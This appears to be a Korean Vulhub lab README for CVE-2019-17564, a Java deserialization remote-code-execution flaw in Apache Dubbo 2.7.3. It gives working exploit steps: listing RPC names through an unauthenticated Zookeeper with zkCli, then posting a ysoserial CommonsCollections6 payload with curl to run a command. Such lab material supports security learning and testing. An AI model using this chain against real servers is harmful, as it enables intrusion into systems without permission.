 # CVE-2019-17564

Apache Dubbo는 java 기반의 고성능 오픈 소스 RPC 프레임워크입니다.

Apache Dubbo는 다양한 프로토콜을 지원하며, HTTP 프로토콜 핸들러는 Spring Framework의 'org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter` 래퍼(wrapper) 형태입니다.

Spring Framework의 보안 경고는 안전하지 않은 Java 역직렬화(deserialization)가 `HttpInvokerServiceExporter`에 기반하며, 이는 RCE 취약점으로 이어질 수 있습니다. :

> 경고: 안전하지 않은 Java 역직렬화에 의한 취약점을 주의하세요:조작된 입력 스트림은 의도치 않은 명령어로 이어질 수 있습니다. 따라서, HTTP 호출자(Invoker) 엔드포인트를 비신뢰 환경 및 사용자에게 노출하지 마십시오. 개인 서비스 간의 HTTP 호출자 노출은 가능합니다. 일반적으로 JSON 등의 다른 메시지 포맷 사용을 강력하게 권고합니다.

해당 취약점은 Apache Dubbo 2.7.4와 이전 버전에 적용되며, Dubbo 2.7.5부터는 `HttpInvokerServiceExporter`를 `com.googlecode.jsonrpc4j.JsonRpcServer`로 대체했습니다.

## 참고문헌 링크

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 취약한 애플리케이션

하기 내용과 같이 명령어를 실행하여 Apache Dubbo 2.7.3을 실행합니다.

```
docker compose up -d
```

서비스 실행 후 ``http://your-ip:8080``에 접속할 경우,  에러 페이지 500을 기본적으로 반환합니다.

## 익스플로잇 단계 (Exploit)

해당 취약점을 사용하기 전, RPC의 이름을 반드시 알아야 합니다.

Vulhub는 8080 포트와 2181 포트를 열어두고 있으며, 2181 포트는 Zookeeper를 위한 포트입니다. [Zookeeper](https://zookeeper.apache.org/)를 다운로드한 후, **zkCli** 스크립트를 이용하여 인증되지 않은 Zookeeper 서버에 연결할 수 있습니다. :

```
./zkCli -server target-ip:2181
```

연결 후, 모든 노드에 'ls'를 적용할 수 있는 대화형 콘솔을 사용할 수 있습니다. 해당 콘솔은 Dubbo 관련 구성도 포함합니다.

![](1.png)

`org.vulhub.api.CalcService` RPC 인터페이스를 사용하세요. [ysoserial](https://github.com/frohoff/ysoserial)를 통해 `CommonsCollections6` 페이로드를 생성하고, `http://your-ip:8080/org.vulhub.api.CalcService`에 POST 본문의 형태로 발송하십시오.

```
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

컨테이너 접속 후, `touch /tmp/success` 명령어가 성공적으로 수행됨을 확인할 수 있습니다.

![](3.png)
